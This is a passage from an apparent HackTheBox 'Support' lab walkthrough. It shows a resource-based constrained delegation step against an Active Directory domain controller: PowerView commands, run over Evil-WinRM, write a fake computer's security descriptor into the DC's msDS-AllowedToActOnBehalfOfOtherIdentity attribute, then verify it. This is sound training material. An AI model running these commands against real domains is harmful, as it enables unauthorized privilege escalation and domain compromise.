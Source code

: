 Next step is to modify the target computer's AD object, in this case DC.SUPPORT.HTB. Apply the security descriptor bytes of the FAKE01 computer to the target DC machine:

```bash
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_5_bytes.png" width="90%"/>
</p>

We were able to write this because _SUPPORT@SUPPORT.HTB_ belongs to security group _SHARED SUPPORT ACCOUNTS@SUPPORT.HTB_, which has full control (GenericAll) over the target computer DC$.
We can check if the _msDS-AllowedToActOnBehalfOfOtherIdentitity_ attribute is set:

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_6_attr.png" width="90%"/>
</p>

To make sure everything is set in place, let's check that the security descriptor from DC in attribute _msds-allowedtoactonbehalfofotheridentity_ refers to FAKE01$ machine (SID finished in 5601):


```bash
*Evil-WinRM* PS C:\Users\support\Desktop> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\Users\support\Desktop> (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5601
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```
